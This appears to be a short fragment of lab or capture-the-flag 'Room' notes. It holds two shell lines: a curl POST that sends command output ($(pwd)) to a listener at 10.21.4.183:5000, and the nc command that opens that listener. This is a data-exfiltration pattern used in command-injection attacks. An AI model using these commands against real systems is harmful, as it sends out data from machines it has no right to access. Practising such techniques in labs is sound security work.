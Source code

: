 ```yaml
---
tags:
  - Room
---
```

``` bash icon
curl -X POST -d "data:$(pwd)" 10.21.4.183:5000
nc -lvp 5000
```
